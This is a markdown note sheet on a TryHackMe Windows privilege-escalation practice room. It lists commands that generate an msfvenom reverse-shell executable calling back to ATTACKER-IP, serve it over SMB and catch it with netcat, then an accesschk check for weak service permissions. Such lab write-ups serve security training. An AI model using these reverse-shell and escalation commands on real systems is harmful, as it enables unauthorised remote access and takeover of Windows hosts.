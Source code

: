 # **Windows PrivEsc**

***

![image](https://github.com/user-attachments/assets/95cc8e50-a67b-4617-b958-1788940664e3)


## Windows Privilege Escalation Practice Room on Tryhackme, Created By [Tib3rius](https://tryhackme.com/r/room/windows10privesc)

***


> Take note that this is just a straight forward go-to note after knowing what privilege escalation attack to execute on a particular target

### **Generate a Reverse Shell Executable**


To maintain persistence create a `.EXE` executable and get multiple reverse shells


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER-IP LPORT=4444 -f exe -o reverse.exe

smbserver.py share -smb2support ./

# Execute below command on target system
copy \\ATTACKER-IP\share\reverse.exe C:\PrivEsc\reverse.exe

nc -nvlp 4444

# Execute below command on target system
C:\PrivEsc\reverse.exe
```



## **Service Exploits**

### **Insecure Service Permissions**



- Use `accesschk.exe` to check account permissions on a particular service 
	- Permission => `SERVICE_CHANGE_CONFIG`


```bash
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -uwcqv guest daclsvc

# C:\PrivEsc\accesschk.exe /accepteula -uwcqv <USERNAME> <SERVICE>

        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```
